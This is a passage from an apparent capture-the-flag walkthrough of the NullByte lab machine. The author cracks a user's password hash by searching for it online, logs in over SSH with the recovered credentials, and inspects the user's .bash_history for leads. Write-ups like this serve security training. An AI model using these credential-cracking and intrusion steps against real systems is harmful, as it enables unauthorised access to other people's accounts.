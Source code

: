 ```
[*] shutting down at 23:20:16
```

There's a Base64 MD5 hash for ramses' password. To crack it, I just Googled it:

![](/images/2015-08-06/05.png)

Password was omega, and it turned out those were the SSH credentials for ramses. 

```
# ssh -p777 ramses@192.168.107.135
ramses@192.168.107.135's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug  2 01:38:58 2015 from 192.168.1.109
ramses@NullByte:~$ hostname
NullByte
ramses@NullByte:~$ id
uid=1002(ramses) gid=1002(ramses) groups=1002(ramses)
ramses@NullByte:~$
```

A quick scan around the files in ramses' directory revealed some interesting information in the .bash_history file:

```
ramses@NullByte:~$ cat .bash_history 
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
```
